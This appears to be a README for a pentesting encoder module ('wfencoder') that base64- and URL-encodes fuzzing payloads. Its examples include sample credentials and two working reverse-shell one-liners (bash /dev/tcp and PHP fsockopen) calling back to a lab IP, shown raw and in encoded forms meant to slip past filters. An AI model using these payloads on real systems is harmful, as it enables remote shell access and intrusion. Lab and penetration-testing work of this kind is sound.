 #### Use case ####
    More often than not, I am constantly testing URL encoded and base64
    encoded payloads when trying to get a foothold.
    This module is just for speeding up the proccess.

#### Sample module wfencoder - Encode file contents ####
    If the foothold requires fuzzing a login, this module can help with the payload.
    Sometimes, the login requires a base64 encoded set of credentials.
    Sometimes that base64 encoded data needs to be url encoded after the base64 encoding.
    Below shows both examples.

    Test1:
        Cred.txt
            user:pass
            james:jones
            alex:mercer

        wfencoder -if fuzzFile.txt -be
            dXNlcjpwYXNz
            amFtZXM6am9uZXM=
            YWxleDptZXJjZXI=

    Test2:
        RTCP.txt
            /bin/sh -c '/bin/sh -i >& /dev/tcp/10.10.14.16/4443 0>&1'
            php -r '$sock=fsockopen("10.10.14.16",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

        wfencoder -if fuzzFile.txt -be
            L2Jpbi9zaCAtYyAnL2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNi80NDQzIDA+JjEn
            cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjEwLjE0LjE2Iiw0NDQ0KTtleGVjKCIvYmluL3NoIC1pIDwmMyA+JjMgMj4mMyIpOyc=

        wfencoder -if fuzzFile.txt -ue v3
            %2Fbin%2Fsh%20-c%20%27%2Fbin%2Fsh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.16%2F4443%200%3E%261%27
            php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.14.16%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27

        wfencoder -if fuzzFile.txt -be -ue v3
            L2Jpbi9zaCAtYyAnL2Jpbi9zaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xNi80NDQzIDA%2BJjEn
            cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjEwLjE0LjE2Iiw0NDQ0KTtleGVjKCIvYmluL3NoIC1pIDwmMyA%2BJjMgMj4mMyIpOyc%3D

##### _All modules have a -h and --help for more assistance._ #####